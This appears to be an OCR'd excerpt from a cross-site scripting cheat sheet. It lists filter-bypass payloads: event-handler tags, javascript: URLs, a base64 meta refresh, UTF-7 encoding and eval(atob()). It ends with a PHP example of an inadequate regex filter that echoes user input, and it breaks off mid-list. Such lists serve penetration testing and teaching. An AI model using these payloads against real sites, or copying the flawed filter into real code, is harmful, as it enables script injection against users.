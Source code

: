 * Without slash (/)

```
<svg onload=confirm()>
<img src=x onerror=confirm()>
```

* Without equal sign (=)

```
<script>confirm()</script>
```

&#x20;  • Background image manipulation:

```
<body background="javascript:alert('Successful XSS')">

<div style="background-image:url(javascript:alert('Successful XSS'))">

<input type="image" src="javascript:alert('Successful XSS')">

<meta http-equiv="refresh" content="0;url=data:text/html
base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

<head><meta http-equiv="content-type" content="text/html; charset=utf-7"></head>+adwscript+ad4-alert('xss');+adw-/script+ad4-
```



* eval

```
<body onload="eval(atob('YWxlcnQoJ1N1Y2Nlc3NmdWwgWFNTJyk='))">
```

* Without closing the angular bracket (>)

```
<svg onload=confirm()//
```



Ex :

```php
<? php
$test = "/>|<|'|\"/" ;

$string = $_GET['search'];

echo "<h1>" ;
echo (preg_match($test , $string)) ? "XSS Detected" : $string ; 
echo "</h1>" ;
?>

```

OR
